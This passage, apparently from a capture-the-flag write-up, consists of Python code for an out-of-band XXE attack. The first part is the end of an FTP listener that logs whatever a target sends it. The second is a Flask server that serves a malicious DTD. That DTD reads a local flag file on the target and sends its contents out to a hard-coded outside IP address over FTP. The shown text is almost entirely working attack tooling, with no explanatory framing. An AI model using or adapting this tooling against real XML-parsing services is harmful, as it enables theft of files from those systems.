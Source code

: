```python

    s.listen(10)
    print('[+] 230OOB started on port: '+str(PORT))


    conn, addr = s.accept()
    print('[*] Connection from: '+addr[0]+"!")
    conn.sendall(welcome)

    while True:
        data = conn.recv(1024)
        ftp_command = data.split(b" ", 1)
        response = {
            'user': ftp_user_response,
            'pass': ftp_pass_response,
        }.get(ftp_command[0].lower(), ftp_catch_all_response)
        conn.sendall(response)
        line = data.decode('UTF-8')
        line = line.replace("\n","").replace("CWD","")
        print(line)
        extract(line)
    s.close()

def extract(data):
        fopen = open('./extracted.log', 'a')
        fopen.write(data)
        fopen.close()

try:
    main()
except KeyboardInterrupt:
    s.close()
```
      
#### 2. Web Application Server (port: 7777)         

```python
from flask import Flask, Response

app = Flask(__name__)

@app.route('/ex.dtd')
def serve_dtd():
    dtd_content = '''<!ENTITY % data SYSTEM "file:///flag1423749465164">
    <!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://43.201.250.246:8000/%data;'>">%param1;'''

    return Response(dtd_content, content_type='text/xml')

# Flask 서버 실행
if __name__ == "__main__":
    app.run(host="0.0.0.0", port=7777)
```      
     